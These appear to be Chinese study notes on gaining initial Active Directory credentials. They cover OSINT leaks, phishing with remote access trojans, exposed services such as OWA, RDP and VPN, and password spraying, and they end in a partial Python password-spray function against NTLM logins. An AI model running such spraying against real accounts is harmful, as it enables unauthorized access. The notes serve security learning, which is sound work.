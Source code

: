 #### 概述 (Overview)

在对活动目录 (Active Directory, AD) 进行攻击，如执行权限提升、横向移动或达成最终目标之前，首要步骤是获得**初始访问权限 (Initial Access)**。核心目标是获取一套任何有效的 AD 凭证。在此阶段，凭证的权限级别并不重要，即使是权限最低的账户也足以作为立足点，因为它能解锁对 AD 自身的进一步枚举能力。获取初始凭证的攻击面非常广泛，涵盖了从外部利用公开信息到内部利用网络协议漏洞的多种方法。

#### 外部攻击面 (External Attack Vectors)

这些方法通常从组织内部网络之外发起，旨在获取可用于登录内部系统的凭证。

- **开源情报 (Open-Source Intelligence, OSINT)**：
    
    - **定义**：通过分析公开披露的信息来发现凭证。
    - **常见来源**：
        - **公开论坛**：用户在 Stack Overflow 等网站提问时不慎泄露了敏感信息。
        - **代码仓库**：开发者将含有硬编码凭证的脚本上传到 GitHub 等平台。
        - **数据泄露**：员工使用工作邮箱注册外部网站，而这些网站发生数据泄露。HaveIBeenPwned 和 DeHashed 等平台可用于查询邮箱是否涉及已知的泄露事件。
- **网络钓鱼 (Phishing)**：
    
    - **定义**：一种社会工程学攻击，是获取初始访问权限的常用且高效的手段。
    - **主要形式**：
        - **凭证窃取**：诱骗用户在伪造的登录页面上输入其 AD 凭证。
        - **恶意软件植入**：诱使用户运行一个应用程序，该程序在后台安装远程访问木马 (Remote Access Trojan, RAT)。RAT 在用户上下文中执行，攻击者可立即获得该用户账户的访问权限。
- **暴露的认证服务 (Exposed Authentication Services)**：
    
    - 许多内部服务可能会意外地暴露在互联网上，这些服务通常与 AD 集成以进行用户认证，从而成为攻击入口。常见的暴露服务包括：
        - Outlook Web App (OWA) 登录门户。
        - 远程桌面协议 (Remote Desktop Protocol, RDP) 服务。
        - 与 AD 集成的 VPN 端点。
        - 使用 NetNTLM 认证的面向公众的 Web 应用程序。
    - **密码喷洒 (Password Spraying)**：
        - **定义**：一种针对上述暴露服务的暴力破解变种。攻击者使用一个或几个常见密码（如 `Changeme123`），去尝试大量不同的用户名。这种“低速慢扫”的方式旨在避免触发账户锁定策略。
        - **检测方式**：尽管可以规避单账户锁定，但该攻击会在短时间内产生大量来自同一源 IP 的失败登录尝试，容易被安全监控系统检测到。
        - **实现示例**：攻击脚本可通过发送认证请求并监控 HTTP 响应状态码来判断凭证有效性。
            
            Python
            
            ```
            # 脚本核心逻辑：遍历用户列表，使用单一密码尝试 NTLM 认证
            def password_spray(self, password, url):
                print("[*] Starting password spray attack using password: " + password)
                count = 0
                for user in self.users:
                    # 使用 requests 库和 HttpNtlmAuth 发送认证请求
                    response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            
                    # HTTP 200 表示成功，HTTP 401 表示失败
                    if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE): # 通常是 200
                        print("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                        count += 1
                        continue
                    if (self.verbose and response.status_code == self.HTTP_AUTH_FAILED_CODE): # 通常是 401
                        print("[-] Failed login with Username: " + user)
            